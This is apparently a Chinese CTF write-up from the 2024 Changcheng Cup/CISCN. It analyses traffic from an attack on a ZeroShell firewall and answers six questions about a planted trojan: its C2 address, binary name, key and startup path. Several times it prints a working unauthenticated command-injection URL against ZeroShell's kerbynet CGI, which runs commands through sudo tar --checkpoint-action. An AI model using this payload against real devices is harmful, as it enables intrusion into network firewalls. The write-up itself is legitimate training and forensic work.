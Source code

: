 ```yaml
---
title: 2024长城杯&CISCN-威胁流量分析-zeroshell
subtitle:
date: 2025-03-14T14:47:04+08:00
slug: 2cd83e6
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

```
1.从数据包中找出攻击者利用漏洞开展攻击的会话（攻击者执行了一条命令)，写出该会话中设置的flag。
2.通过漏洞利用获取设备控制权限，然后查找设备上的flag文件，提取flag文件内容。
3.找出受控机防火墙设备中驻留木马的外联域名或IP地址，结果提交形式：flag{xxxx}，如flag{www.abc.com}或flag{16.122.33.44}
4.请写出木马进程执行的本体文件的名称，结果提交形式：flag{xxxx}，仅写文件名不加路径
5.请提取驻留的木马本体文件，通过逆向分析找出木马样本通信使用的加密密钥。结果提交形式
6.请写出驻留木马的启动项，注意写出启动文件的完整路径。结果提交形式：flag{xxxxxxx}，如flag{/a/b/c}
```

1、分析流量包，防火墙的ip为`61.139.2.100`，猜测攻击为web的HTTP，

```
ip.addr == 61.139.2.100 && http
```



![](images/38b6d72a4d22107cbd249efd5ffbad5d.png)

追踪HTTP流，



![](images/f83580bcd2882c95e27bf21748f56e01.png)

从Get可知，执行了`ps -ef`命令，才会有这个回显，对Referer部分base64解码

![](images/74f69a89d02667d5c958136e5ff24adb.png)

拿到第一题flag：flag{6C2E38DA-D8E4-8D84-4A4F-E2ABD07A1F3A}

2、第一问的分析过程中，发现执行了`ps -ef`命令，说明存在命令执行RCE。根据第一问分析过程中的playload去进行攻击，仅需要修改`ps -ef`命令部分，即可去查找flag文件
修改前：

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='ps -ef'%0A'
```

修改后：

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='find / -name 'flag''%0A'
```

仅把`ps%20-ef`修改为`find%20/%20-name%20'flag'` 

![](images/fa1ff9a727f1e891ec8f29944d62c932.png)

发现了flag文件，按照顺序尝试进行读取，还是现成的playload构造`tac`指令，拿到/Database/flag文件内容。

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /Database/flag'%0A'
```



![](images/1334dd4dbdfaa34a6170ff4d7981e78d.png)

拿到第二问flag：flag{c6045425-6e6e-41d0-be09-95682a4f65c4}

3、找出驻留木马的外联域名，意思就是我们现在需要去获得当前系统的网络连接、路由表、接口信息等，在linux中需执行`netstat -anop`，根据给出的playload继续打

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```

在url前加上view-source:应该更容易观察、分析

```
view-source:http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```



![](images/e20fc419674daa34377b7cb223083da1.png)

发现一个特殊ip，应该就是要寻找的ip
第三问flag：flag{202.115.89.103}

4、木马进程执行的本体文件的名称，上一问，我们在分析木马ip时同时找出来运行的pid，继续用playload执行`ls -l /proc/10541`命令，pid为`10541`的文件就是本体文件

```
cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ps'%0A'
```



![](images/47dd08b932623b9d070f49da6fb33d43.png)

第四问flag：flag{.nginx}

第五问让我们寻找加密密钥，我们先把`.nginx`文件down到本地。先找到`.nginx`文件的具体位置，用`cat`查看`.nginx`。
`ls -l /proc/10541`查找具体路径

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ls%20-l /proc/10541'%0A'
```



![](images/11ee9d23d5a06bf3fb8dd4050251fd4f.png)

再用`cat`查看

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /tmp/.nginx'%0A'
```

尝试再页面内搜索`202.115.89.103`恶意ip

![](images/5a6fe911cc960783f86241691f3ab12c.png)

发现其后跟着一堆数字字母，猜测是密钥了
第五问flag：flag{11223344qweasdzxc}

6、已经知道木马文件的名称了，直接使用`grep`查找，尝试在各个目录里查找，最后在`/var`目录发现

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='grep -r ".nginx" /var'%0A'
```



![](images/bb68f1b78c46f3439e9ca232aa417f78.png)

第六问flag：flag{/var/register/system/startup/scripts/nat/File}
